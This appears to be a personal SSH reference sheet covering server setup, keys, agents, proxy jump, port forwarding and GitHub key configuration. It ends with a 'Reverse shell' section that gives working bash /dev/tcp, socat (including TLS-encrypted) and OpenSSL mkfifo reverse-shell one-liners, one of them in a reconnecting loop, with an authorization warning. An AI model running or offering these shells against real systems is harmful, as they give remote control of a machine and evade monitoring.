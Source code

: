 # SSH

---

## Enable SSH Server (Debian)

```bash
sudo apt install openssh-server
sudo systemctl enable ssh
sudo systemctl start ssh
sudo ufw allow ssh
sudo ufw enable
```

## Enable SSH Server (Red Hat)
```bash
sudo dnf install -y openssh-server
sudo systemctl enable sshd
sudo systemctl start sshd
sudo systemctl status sshd
sudo firewall-cmd --permanent --add-service=ssh
sudo firewall-cmd --reload
# sudo firewall-cmd --list-all # Just to comfirm
```

---

## SSH Agent
List ssh-agent keys
`ssh-add -l`

Add SSH Key to the ssh-agent
`ssh-add </path/to/your/private/key>`

Remove Key from the ssh-agent
`ssh-add -d </path/to/your/private/key>`

Start the ssh-agent
`eval "$(ssh-agent -s)"`

Restart the ssh-agent
`eval "$(ssh-agent -k)"  # Kill the agent`
`eval "$(ssh-agent)"     # Start a fresh instance`

## Keys
Generate new key
`ssh-keygen -t rsa -b 4096 -C <email@domain.com>` 

Generate new key using ed25519 (best practice) `ssh-keygen -t ed25519 -C <your_email@example.com>`

Copy key to remote
`ssh-copy-id -i $<key_path> <user>@<hostname/ip>`

Use a specific key during connection
`ssh -o "IdentitiesOnly=yes" -i <key_path> -p <port> <user><hostname/ip>`

Use **only** password authentication (if is is allowed)
`ssh -o PubkeyAuthentication=no user>@<hostname/ip>`

## Proxy Jump
SSH proxy jump
`ssh -J <user-proxy>@<domain/ip-proxy> <user-target>@<domai/ip-target>`

SSh proxy jump on user configuration (~/.ssh/config)
```
Host <proxy-host-name>
  HostName <IP-address>
  User <user-name>                  # Not important
  Port <specify-port-number-here>   # Not important
  IdentityFile ~/.ssh/<file1>       # Not important

### The Remote Host
Host <private-server-name>
  HostName <IP-address>             # Not important
  User <user-name>                  # Not important
  Port <specify-port-number-here>   # Not important
  IdentityFile ~/.ssh/<file2>       # Not important
  ProxyJump <proxy-host-name>
```

## Configuration
Check SSH Configuration
`ssh -G <hostname>`

Global configuration filepath
`/etc/ssh/ssh_config`

### SSH client `Include`
In order to include in the `~/.ssh/config` another configuration use the `Include` keyword.

E.g.

```
# In ~/.ssh/config
Include servers/config

Host ...
```

### Disable both password and keyboard-interactive

1. `sudo vim /etc/ssh/sshd_config`
2. Set the following options:
    ```
    PasswordAuthentication no
    ChallengeResponseAuthentication no
    UsePAM no
    ```
3. `sudo systemctl restart ssh`

## Other connections
Remote Command Execution
`ssh <user>@<hostname/ip> "<command>"`

Local Port Forwarding (Forward a port from the remote machine to your local machine)
`ssh -L <local_port>:<remote_host>:<remote_port> -N <user>@<hostname/ip>` # Use -N if you don’t need a shell session

Remote Port Forwarding: (Forward a port from your local machine to a remote machine)
`ssh -R <remote_port>:<local_host>:<local_port> -N <user>@<hostname/ip>` # Use -N if you don’t need a shell session

Create an SSH SOCKS proxy for dynamic port forwarding
`ssh -D <local_port> <user>@<hostname>`

## Use SSH key on Github

1. Run `ssh-keygen -t ed25519 -C "your_email@example.com"`
2. `cat ~/.ssh/<keyname>.pub` and copy your key
3. Paste it as is on your github account as an authentication key
4. Add on your `~/.ssh/config` this:
```
Host github.com
  HostName github.com
  User git
  IdentityFile ~/.ssh/<keyname>
  IdentitiesOnly yes
  IdentityAgent none
  AddKeysToAgent no
```
5. Evaluate that it is working by running `ssh -T git@github.com`
6. For security run `chmod 400 ~/.ssh/<keyname>`
7. If you have repositories that have been cloned using https, do the following
```
# Inspect remotes
git remote -v

# Update
git remote set-url origin git@github.com:Username/repository-name.git

# Inspect remotes again
```

---

## Reverse shell 

> [!WARNING]
> Use reverse shell only on systems that you have explicit authorization to access.

### 1. Using Bash
**Listener** (the machine that wants to establish the ssh connection)
```bash
nc -lvnp <port>
```

From the **target** machine run one of the commands based on the use case.

1. Terminal
```bash
while true; do bash -c "/bin/bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" ; sleep 5 ; done
```

### 2. Socat [Preferred]
Reverse Shell with socat (recommended for stability). Socat is very reliable and supports full TTY and encryption (TLS) if needed.

Installation
```
sudo apt install socat
```

On the **listener**:
```
socat file:`tty`,raw,echo=0 tcp-listen:<port>,reuseaddr
```

On the **target** (your device):
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<your-ip>:<port>
```

#### How to add encryption:
**Listener**
```bash
# Create certificate
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
cat key.pem cert.pem > fullchain.pem

# Start listener
socat openssl-listen:<port>,reuseaddr,fork,cert=cert.pem,key=key.pem,cafile=cert.pem,verify=0 file:`tty`,raw,echo=0
```

**Target**
```bash
socat openssl-connect:<your-ip>:<port>,verify=0 exec:'bash -li',pty,stderr,setsid,sigint,sane
```

### 4. OpenSSL
A bit more complex but adds encryption.

On the **listener**:
```
openssl req -new -x509 -days 365 -nodes -out cert.pem -keyout cert.pem
openssl s_server -quiet -key cert.pem -cert cert.pem -port <port>
```

On the **target**:
```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ip>:<port> > /tmp/s
```

---